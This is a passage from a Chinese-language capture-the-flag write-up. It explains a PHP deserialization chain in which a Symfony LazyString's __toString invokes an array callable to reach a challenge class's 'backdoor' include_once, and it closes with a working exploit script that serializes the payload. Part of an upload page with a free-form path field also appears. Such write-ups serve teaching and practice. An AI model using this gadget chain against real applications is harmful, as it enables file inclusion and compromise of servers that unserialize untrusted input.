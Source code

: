```php
    <head>
        <title>Upload</title>
    </head>

    <body>
        <h1>Upload files casually XD</h1>
        <form action="index.php" method="post" enctype="multipart/form-data">
            FILE: <input type="file" name="file">
            PATH: <input type="text" name="path">
            <input type="submit">
        </form>

        <hr>

        <h3>or...Just look at the phpinfo?</h3>
        <a href="./index.php?phpinfo=1">go to phpinfo</a>
    </body>
</html>
CODE;
}
```

还是利用`__toString` 函数

**重点：**以前遇到的形式可能是这样的 `$可控->$可控()` 这样触发 `__call方法` 这里形式是 `$可控()`，我们给 `$this->value`为数组模式

![image-20220329212213782](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203292122965.png)

触发了`__call`，因为`__toString`传过来的都是无参数的函数，所以需要找个无参数的函数

刚好`backdoor`满足，利用`include_once`

![image-20220329212315033](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203292123250.png)



所以exp为

```php
<?php
namespace Symfony\Component\String{
    class LazyString{
        public $value;
        
        public function __construct($value){
            $this->value = $value;
        }
    }
}

namespace {
    class sandbox {
        public $evil;
        public function __construct(){
            $this->evil = "/tmp/sanbox/flag";
        }
    }
    use Symfony\Component\String\LazyString;

    $value = [new sandbox,"backdoor"];

    $lazy = new LazyString($value);

    echo serialize($lazy);

}
```